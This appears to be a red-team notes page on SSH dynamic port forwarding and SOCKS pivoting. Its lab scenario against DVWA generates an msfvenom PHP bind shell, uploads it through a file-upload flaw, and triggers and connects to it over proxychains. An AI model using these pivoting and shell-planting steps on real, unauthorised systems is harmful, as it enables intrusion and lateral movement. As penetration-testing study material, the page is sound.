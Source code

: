 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - port-forward
  - socks-proxy
  - living-off-the-land
  - living-off-the-foreign-land
  - linux
---
```

# Dynamic Port Forwarding

> [!IMPORTANT] Configuration Conditions
> In the `/etc/ssh/sshd_config`. `AllowTcpForwarding` must be enabled. Below you'll see the configuration.
> ```
$ cat /etc/ssh/sshd_config
..[omitted]..
AllowTcpForwarding yes
..[omitted]..
> ```

## 01 - Usage

Syntax usage to create a dynamic port forwarding.

```
$ ssh -D [<bind_local_IP>:]<local_SOCKS_PORT> <username>@<pivot_SSH_IP>
```

### 1.1 - Using `proxychains`

```
$ cat /etc/proxychains4.conf
..[omitted]..
socks4  127.0.0.1 <local_SOCKS_PORT>

$ proxychains firefox <target_IP>
```

### 1.2 - FoxyProxy

You can use a **FoxyProxy** firefox extension to create a pattern

![[01 - New SOCKS Proxy Configuration.png]]

Then select **SOCKS4 Proxy** that you've created.

![[02 - Select SOCKS Proxy.png]]

### 1.3 - Web Browser Network Settings

You can go to Firefox's **Network Settings**

![[03 - Firefox Network Settings.png]]

Then edit the **SOCKS Host**

![[04 - Firefox Manual Proxy Configuration.png]]

## 02 - Scenarios

### 2.1 - Bind Shell via Proxychains

TODO: Make a network topology diagram to illustrate the pivoting scenario and redo the lab

Let's say we were able to compromise the machine and got the SSH credentials and finally establish the SSH server as a foothold to start a socks proxy dynamic port forwarding 1080

```
userware@hackware-os:~$ ssh -NTfCq -D1080 vagrant@10.0.2.10
```

![[01 - Linux Machine Pivoting.png]]

Then we configure the SOCKS4/SOCKS5 through **FoxyProxy** firefox extension with the following settings

![[02 - New SOCKS Proxy Configuration.png]]

Then we choose the **SOCKS4 Proxy** to make connection to the webserver

![[03 - Select FoxyProxy Pattern.png]]

We will use the **DVWA (Damn Vulnerable Web Application)** as an example to simulate the cyber attack of the file upload vulnerability

![[04 - DVWA File Upload Webpage.png]]

We generate a PHP bind shell then we upload it.

```
userware@hackware-os:~$ msfvenom -p php/bind_php lport=8888 -f raw -o shell.php
```

![[05 - Callback Shell Uploaded.png]]

Then we must activate the PHP bind shell to start a listener of port **8888** and there are two ways to do it:

- Method 1: Navigate through the URL with FoxyProxy

Using any web browser like firefox to navigate the path of the URL.

![[06 - Navigate URL FoxyProxy.png]]

- Method 2: Proxychains with cURL

Using the `curl` command with `proxychains` to execute the webserver while pivoting.

```
userware@hackware-os:~$ proxychains curl -X GET http://192.168.56.106/dvwa/hackable/uploads/shell.php
```

It starts a listening port of **8888** that is awaiting for connection from the compromised webserver

```
$ ss -lnt
State        Recv-Q       Send-Q             Local Address:Port               Peer Address:Port       Process
LISTEN       0            128                      0.0.0.0:8888                    0.0.0.0:*
LISTEN       0            511                            *:80                            *:*
```

Establishing the bind shell to execute further commands by entering the IP address and the Port that we've generated the bind shell.

```
userware@hackware-os:~$ proxychains nc 192.168.56.106 8888
```

![[07 - Callback Shell via Proxychains.png]]

This can be tunneled with [[07 - Tactics & Techniques & Procedures (TTPs) Phases/D - Webapp Pentesting/0x00 - Payloads/Implants/Webshells/PHP|webshells]].

---
## References

### InternalAllTheThings

- [InternalAllTheThings: Network Pivoting Techniques](https://swisskyrepo.github.io/InternalAllTheThings/redteam/pivoting/network-pivoting-techniques/)

### Certcube

- [Certcube: Pivoting and SSH Port Forwarding Basics](https://blog.certcube.com/pivoting-and-ssh-port-forwarding-basics/)

- [Certcube: Pivoting Port Forwarding](https://blog.certcube.com/pivoting-port-forwarding/)

### RawSec

- [RawSec: Overview of Network Pivoting and Tunneling](https://blog.raw.pm/en/state-of-the-art-of-network-pivoting-in-2019/)

### Anestis Bechtsoudis

- [Anestis Bechtsoudis: Using SSH Socks Proxies with MSF Reverse TCP Payloads](https://bechtsoudis.com/archive/2012/06/08/using-ssh-socks-proxies-with-msf-reverse-tcp-payloads/index.html)

### SlayerLabs

- [SlayerLabs: Tunneling Quick Guide](https://posts.slayerlabs.com/tunneling-quick-guide/)